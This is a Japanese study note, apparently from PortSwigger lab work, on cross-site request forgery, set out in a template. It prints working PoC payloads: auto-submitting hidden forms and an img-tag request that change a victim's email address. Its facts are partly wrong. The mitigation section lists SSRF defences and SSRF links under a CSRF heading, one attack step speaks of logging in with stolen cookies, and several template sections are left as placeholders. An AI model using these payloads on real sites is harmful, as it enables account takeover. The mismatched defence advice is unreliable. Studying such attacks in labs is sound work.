 # 脆弱性名: [Cross site Request Forgery (CSRF)]  

## 1️ 概要 / 定義
- クロスサイトリクエストフォージュリーは、攻撃者がユーザに意図しない操作を実行させることを可能にするウェブセキュリティの脆弱性。

## 2️ 攻撃の前提条件
- [関連するアクション]
	- 攻撃者がアプリケーション内で何らかのアクションを誘発する必要がある。
		- 特権での操作や自身のパスワード変更等
- [Cookieベースのセッション処理]
	- アクションの実行には1つ以上HTTPリクエスト発行が含まれアプリケーションはリクエストを送信したユーザを識別するために必要。
- [予測不可能なリクエストパラメータがないこと]
	- 攻撃者がすべてのパラメータの値を知っている必要がある。
		- CSRFにならない場合:これはパスワード変更であった場合、現在のパスワードを知らないとリクエストが処理されてないためそもそもCSRFの対象にはならないという話。
		- CSRFになる場合:

## 3️ 影響
- Webアプリでそのアカウントで許可されている操作はできてしまう。

## 4️ 何ができるか（攻撃成功時の具体例）
- 取得したユーザの権限によって変わる。

## 5️ 攻撃フロー（手順化）
1. [ステップ1：攻撃者がWebページを作成する。]
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
1. [ステップ2：ユーザに1で作成したページを踏ませる。]
2. [ステップ3：1で仕込んだメールアドレスに変更できていればOK]
3. [ステップ4 : 盗んだクッキーを使用してログインする。]
- **目的は「どうすれば成功するか」を他人に説明できるように書くこと**

## 6️ 検出方法（診断手法）
- 手動：
  - [具体的にどのツールを使い、どう検証するか]
- 自動：
  - PoC作成をしてくれるツール
	  - https://github.com/0xInfection/CSRFPocGenerator.git
  - [どういう設定や条件で検出できるか]

## 7️ 判定基準
- [何をもって脆弱と判定するか]
- [ガイドライン（OWASP、CWEなど）や一般的な基準に照らして明文化]
- 例：認証なしで閲覧可能 / 特定操作が実行可能 / トークンがない 等

## 8️ 防御策 / 緩和策
- 技術的対策：
  - [ネットワーク層]
	  - リモートリソースアクセス機能を別々のネットワークに分割する。
	  - 「デフォルトで拒否」のFWポリシーで拒否または、ネットワークアクセス制御ルールを適用し、必須のイントラネットトラフィック以外はすべてブロック。
  - [アプリケーション]
	  - クライアントが提供するすべての入力をサニタイズして検証
	  - URLスキーマ、ポート、および宛先をホワイトリストで強制する。
	  - クライアントに生の応答を送信しない。
	  - HTTPリダイレクトを無効にする。
	  - DNS理バインディングやTOCTOU競合状態などの攻撃を回避するためにURLの一貫性に注意する。
- OWASPなどの対策
	- https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/
	- https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html

## 9 Payload
```
▼Getの場合
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">

▼Postの場合
<form method="POST" action="https://0a47002104cc99ee801e039900c40056.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="csrf2@web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

---
## 【補足】理解すべき背景
- なぜこの脆弱性が成立するのか：
  - [仕様上、設計上、実装上、どの要素が原因か]
- よくある失敗事例：
  - [実際に企業や現場でありがちなミス]
- 関連する脆弱性・攻撃手法：
  - [他の脆弱性との関連性]